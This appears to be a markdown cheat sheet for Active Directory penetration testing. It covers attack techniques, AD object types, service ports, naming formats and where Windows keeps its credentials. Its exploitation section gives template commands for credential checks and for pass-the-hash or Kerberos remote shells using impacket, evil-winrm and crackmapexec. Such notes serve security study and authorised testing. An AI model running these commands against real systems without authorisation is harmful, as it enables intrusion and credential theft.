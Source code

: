 # AD Info
Passwords in SYSVOL also known as GPP Passwords
LLMNR/NBNS Poisoning
	Reponder
SMB Relay attack
Passwords in user description
IPv6 DNS Takeover Attacks
Token Impersonation
Credential Dumping with Mimikatz
Weaponized LNK
mimikatz
local powershell
local/remote

AD Users and Computers:
* Objects
	* User account
		* Domain user account
		* Local user account
	* Computer account
	* Groups
		* Security Group
		* Distribution Group
	* Shares
	* Printers
	* Organizational Units (OU)
	* Attributes
	* Delegate Control

Service account:
* Managed service account (MSA)
	* sMSA
	* gMSA
* Computer account
* User account
	* Domain user account
	* Local user account

## Common services used in AD
|Service|port|
|-|-|
|DNS|53|
|Kerberos, kpasswd|88,464|
|RPC, RPC over HTTP|135, 593| 
|NetBIOS|137, 138, 139|
|LDAP, tls|389, 636|
|SMB|445|
|Global catalog LDAP, tls|3268, 3269|

## Domain Naming
#### Down-level logon name
* NetBIOS_domain_name/samAccountName
* legacy systems - backwards compatible - used for local signon
* 20 chars long

#### User Principal Name (UPN)
* userPrincipalName@DNS_domain_name
* Useful in multi-domain 
* Reflects email style

http://blog.schertz.name/2012/08/understanding-active-directory-naming-formats/

*User account naming:*
* userPrincipalName
* sAMAccountName

*Domain & computers naming:*
* NetBIOS name
* DNS name

#### Naming Conventions
firstlast
first.last
flast
f.last
firlas
fir.las


## Windows credentials
SAM: password hashes local account - pass the hash - NTLM
	encrypted with SYSTEM bootkey
SECURITY: cached domain credentials - logged on host
SYSTEM: LSA secrets
NTDS.DIT: user hashes on stored on DC
	DRSUAPI or VSS
	Kerberos keys
LSASS process from memory: clear-text passwords from logged on users, kerberos tickets

Credential Manager
Protected Storage

#### NTLM/NT hash
Windows hash consists of: LM:NTLM
LM (LAN Manager): 2 parts DES. Stored for backward compatibility reasons. No longer need it
NTLM (NT LAN Manager)/NT: MD4 hash

#### Calculate NTLM/NT hash
```Python
import hashlib,binascii
print(binascii.hexlify(hashlib.new('md4', "<PASSWORD>".encode('utf-16le')).digest()))
```

## Exploitation
Check:
`crackmapexec SERVICE <IP> -u '<USER>' -p <PASS>` hash: -H

Shell:
`impacket-wmiexec -hashes '<HASH>' <USER>@<IP>`
`impacket-psexec -hashes '<HASH>' <USER>@<IP>`
`evil-winrm -i <IP> -u <USER> -p '<PASS>'` hash: -H
`python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass`
`psexec.py -k -no-pass -dc-ip <IP> AD/administrator@192.168.1.100`
smbexec.py
wmiexec.py

## Post-exploitation
`Bloodhound`
	`SharpHound` for local AD
	`AzureHound` for Azure AD